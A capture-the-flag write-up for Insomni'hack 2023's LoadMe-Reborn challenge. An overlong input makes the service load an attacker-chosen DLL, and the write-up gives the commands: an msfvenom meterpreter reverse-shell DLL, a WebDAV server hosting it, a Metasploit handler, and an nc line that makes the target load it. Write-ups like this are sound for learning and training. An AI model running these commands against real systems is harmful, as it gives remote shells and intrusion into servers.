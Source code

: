 # Insomni'hack - LoadMe-Reborn   
This repository is a solution for the flag LoadMe-Reborn for 2023's editions of insomni'hack.
## The flag   
The flags begin with a simple instructions, that someone had developped an application to do a recipe with given components. They give us a nc command so we can connect to the app :
(I have forgot the command that they gave us, but it should be like this one)
```console
nc 10.1.2.13 1234
```
Then, we have a beautiful cli's app that ask us for ingredients so they can cook, if you try to write some ingredients and hit enter, it'll tell us that the kitchen is closed. But it'll echo back the ingredients that we had typed before closing.
The simple trick here is to type ingredients' list so long that they will be an error. The important line in the error is that he has tried to load a DLL library but it was unable to load it, simply because it doesn'it exists ! It has tried to load a DLL with the end of the string that you had typed, so from here we can execute a DLL library of our choice, even our own !   
So we need to have a DLL that can do a reverse shell so we can have access to the server that is running the app. For that I have used msfvenom (.DLL in uppercase) : 
```console
msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip_address LPORT=4444 -f dll -o msf.DLL
```
And then we need a share that the server can use, the first thing that I had tried is smb share, but unfortunately, it has been blocked via a regex, so we need another technology, the next this I tried was webdav and it worked !
You need to host a webdav server, for that I have used wsgidav, it is a generic and extendable WebDAV server written in Python and based on WSGI. I have used this command, you need to launch it where you have generated your DLL library.
```console
wsgidav --host=0.0.0.0 --port=80 --root=./ --auth=anonymous
```
Before loading your library on the server, you need to prepare for the reverse shell with those command :
```console
./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost your_ip_address
lhost => your_ip_address
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run
```
And the you can launch your DLL on the server with this command : 
```console
echo '(stringlongenoughtodotheerror)//youripadress@80/msf' | nc 10.1.2.13 1234
```
It'll launch the nc command and enter the string between the quotes in the app. Now in the shell where you had executed the reverse shell command, you have now access to the server and can get the flag who is in the .txt file !
## Sources
msfvenom : 
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking
* https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html

wsgidav :
* https://wsgidav.readthedocs.io/en/latest/
